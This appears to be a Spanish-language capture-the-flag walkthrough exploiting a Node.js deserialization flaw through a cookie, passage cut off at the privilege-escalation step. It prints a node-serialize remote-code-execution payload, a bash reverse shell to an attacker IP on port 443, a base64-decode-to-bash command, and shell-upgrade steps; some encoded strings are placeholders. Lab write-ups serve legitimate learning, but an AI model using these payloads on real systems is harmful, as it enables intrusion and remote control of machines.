 	var payload = {“rce”:“_$$ND_FUNC$$_function(){require(\’child_process\’).exec(\’ping -c 1 10.10.14.13’, function(error, stdout, stderr){console.log(stdout)});}()”} El que se modifica es el exec ya que ahi se ponen los comando que queremos que se realicen. 

44a44t24a4th8re86h2et8htr1ht3htr8jyj8j3j35jyt8yj9tjj15j30je5jet  Encodeado en formaro URL ejemplo
❯ **tcpdump -i tun0 icmp -n** Nos ponemos en escucha en la interfaz Tun0, despues pegamos el Url Enconde en la Cookie de Almacenamiento y cuando recarguemos veremos que si nos hace un ping, por lo que podemos aprovechar eso para poder hacer una revershell a nuestra maquina.

Creamos un archivo que se llame data el cual contendra el comando de la revershell.

❯ **nano data**    

	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.13/443 0>&1 

❯ **cat data | base64 -w 0, echo** Despues el archivo llamado data lo encodeamos en la consola con base64 y nos saldra lo siguiente: 535ag1a35egrae35g1a3e5g1a35er Por lo que eso lo pegamos asi en el Burpsuite:

	var payload = {“rce”:“_$$ND_FUNC$$_function(){require(\’child_process\’).exec(\’echo 535ag1a35egrae35g1a3e5g1a35er | base64 -d | bash’, function(error, stdout, stderr){console.log(stdout)});}()”} 

El que se modifica es el exec ya que ahi se ponen los comando que queremos que se realicen. (d=decoder base64) 
Una vez encodeado en Url por el Burpsuite lo pegamos en la Cookie de Almacenamiento de la pagina web y antes de recargarla para que lo lea nos ponemos en escucha por el puerto 443


## User
❯ **nc -nlvp 443** Puerto de escucha para poder hacer la revershell en nuestra maquina de atacante
❯ **whoami** Miramos el nombre del usuario
❯ **hostname -I** Para ver la IP de la maquina (I=i mayuscula)

Una vez dentro de la consola, procedemos a hacer una pseudo consola, colocando los siguientes comandos. 
**Script /dev/null -c bash 
Ctrl + z
stty raw -echo; fg 
reset xterm**
**export TERM=xterm** Despues cambiamos esto para poder hacer **Ctrl+ l y Ctrl + c** (l=ele)

Ahora para modificar las dimensiones de nano debemos hacer lo siguiente. 
stty size Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimenesiones de la consola nano 

Despues de eso entramos a la maquina y podemos ir por la flag de User.txt. Pero antes le cambiamos los privilegios al directorio admin para poder entrar y leer la flag con 
❯ **chmod +x admin/**



## Root
Ahora queda hacer la escalada de privilegios para poder ser usuario root, 
❯ **netstat -nat** Podemos ver los puertos abiertos internos y nos mostra el 27017 (Mongo) el cual podemos 
